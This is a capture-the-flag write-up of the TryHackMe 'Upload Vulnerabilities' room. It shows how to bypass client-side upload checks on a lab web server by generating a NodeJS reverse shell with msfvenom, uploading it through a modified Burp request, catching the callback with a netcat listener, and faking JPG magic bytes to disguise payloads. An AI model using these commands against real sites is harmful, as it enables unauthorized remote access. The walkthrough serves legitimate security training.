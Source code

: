 ## THM Upload Vulnerabilities

# Basic Information

| #   |     |
| :-- | :-- |
|Type    | THM Room Challenge
|Organized  by | [TryHackMe](https://tryhackme.com/)
|Name    | **THM / Upload Vulnerabilities**
|URLs    | https://tryhackme.com/room/uploadvulns
|Author  | **Asentinn** / Okabe Rintaro
|       | https://ctftime.org/team/152207

%%[patreon-btn]

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.  
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

***
# Contents
* [Basic Information](#basic-information)
* [Recon](#recon)
* [Fuzzing](#fuzzing)
* [Additional readings](#additional-readings)
***

# Recon

I'm pulling the provided wordlist for the challenge.

![2021-08-08-15-34-20.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025720258/mPy7Gpptf.png)

![2021-08-08-15-36-29.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025732220/npSk6848D.png)

I'm already having the `/etc/hosts` entry for `jewel.uploadvulns.thm` so I'm accessing the page in browser.

> If do not, add the entry with room IP
> ```
> $ sudo nano /etc/hosts
> 
> {IP} jewel.uploadvulns.thm
> ```

![2021-08-08-15-37-52.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025740422/vSV71JHoV.png)

Running `whatweb`

```
$ whatweb jewel.uploadvulns.thm
```
![2021-08-08-15-39-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025750745/FTOHrT8_N.png)

We are dealing with the `nginx` backend. In the source of the page, there is a reference to the `upload.js` script file.

![2021-08-08-15-41-45.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025759300/vVdq_4LIcC.png)

Client-side validation can be easily worked around by passing the traffic through a Burp proxy and cutting the script import before it is rendered. In a real case scenario, backend validation should be at least as restrictive as client one, so it is good we can note down what files are supposed to be allowed or denied.

But first discover directories on the website

```txt
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://jewel.uploadvulns.thm/FUZZ 
```

![2021-08-08-22-06-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025774408/RvTlk_Znaj.png)

[Back to top](#contents) ⤴

## Client-side file upload restrictions

Let's try right away the NodeJS web shell

```
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4455 -o shell.js
```

![2021-08-08-15-58-56.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025783766/IccsnWsBE.png)

## MiM attack with request modification

We can sniff the upload request being made via Burp on a legit file.

![2021-08-08-22-02-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025795017/OkTYYJ-Y9.png)

Content is base64 encoded - so let's encode the `shell.js` file content and paste into Repeater - send it and voilà - we have the reverse shell file on the website.

![2021-08-08-22-00-55.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025807581/5zr4yGvib.png)

[Back to top](#contents) ⤴

# Fuzzing

We can see that existing backgrounds are named using free letter filename like `ABH.jpg` or `AVK.jpg`. Now, we can make assumption that any file that passes the upload are placed together with these backgrounds with name conforming to that rules.

> On the main page we can read *Upload it here and we'll add it to the slides!*

Fuzzing the `content` directory, we can see multiple files, and a few that have ~800 bytes - these are our payloads.

> There are multiple files uploaded because I was trying different uploads before I found the right one. See the [Bonus content](#bonus-hiding-malicious-code-behind-jpg-signature)

```
$ ffuf -w UploadVulnsWordlist.txt:FUZZ -u http://jewel.uploadvulns.thm/content/FUZZ -e .jpg
```

![2021-08-08-21-41-14.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025822041/L3trZYTyk.png)

> Other files with 800 and 799 bytes size are my previous attempts.

```
$ curl http://jewel.uploadvulns.thm/content/HRH.jpg
```

![2021-08-08-21-40-42.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025835057/esyOpliap.png)

When you try accessing the shell directly

![2021-08-08-22-07-39.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025846800/puYxuAIR0.png)

But during the directory fuzzing we have discovered the `admin` directory.

[Back to top](#contents) ⤴

## `/admin`

![2021-08-08-17-19-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025946263/mRynBvBqOp.png)

Can we access the file via this form? 

![2021-08-08-21-42-32.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025957871/GNAHY2wVZ.png)

Before making a request, start the listener with `nc -lvnp {PORT}` and submit the form on `/admin`.

![2021-08-08-21-42-19.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025970867/Miw2bwR-D.png)

Yes, indeed.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629096019249/jH7ipAKXB.png)

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping

>✔ CDN hosted images

>✔ Free built-in newsletter service

>✔ Built-in blog monetizing through the Sponsor feature

> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

[Back to top](#contents) ⤴

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media

> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)

> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)

> 👉 LinkedIn: [Kamil Gierach-Pacanek](https://www.linkedin.com/in/kamilpacanek)

> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)

> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)


## Bonus: hiding malicious code behind JPG signature

Forging a JPG/JPEG file requires a file to start with _magic number_ `FF D8 FF`.

![2021-08-08-15-45-40.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025999955/gkf6wjGND.png)

1. Edit payload: prepend `AAA` at the beginning of the file

2. Edit the payload in `hexedit` replacing first octets with `FF D8 FF`.

Before:

![2021-08-08-21-56-06.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026010299/-rNo_5Roi.png)
![2021-08-08-21-56-48.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026017976/lH6lGS0jd.png)

After:

![2021-08-08-21-59-21.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026028932/278nMuUIM.png)
![2021-08-08-21-57-30.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026037512/t4KNGMQ6d.png)

![2021-08-08-16-39-33.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026049401/npMd99XAy.png)

[Back to top](#contents) ⤴

